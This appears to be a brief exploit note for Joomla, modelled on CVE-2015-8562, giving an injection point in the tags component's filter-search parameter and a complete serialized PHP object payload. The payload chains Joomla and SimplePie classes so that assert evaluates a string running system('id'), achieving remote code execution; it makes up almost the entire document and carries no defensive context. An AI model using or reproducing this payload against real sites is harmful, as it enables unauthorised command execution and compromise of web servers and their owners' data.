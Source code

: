 # Like CVE-2015-8562

# Entry point: 

*/index.php/component/tags/?filter-search=payload*

# Example: 

*/index.php/component/tags/?filter-search=antonydaubuoi|O:21:"JDatabaseDriverMysqli":3:{s:2:"fc";O:17:"JSimplepieFactory":0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:8:"feed_url";s:45:"eval(system('id'));JFactory::getConfig();exit";s:19:"cache_name_function";s:6:"assert";s:5:"cache";b:1;s:11:"cache_class";O:20:"JDatabaseDriverMysql":0:{}}i:1;s:4:"init";}}s:13:"\0\0\0connection";b:1;}ðýýý*
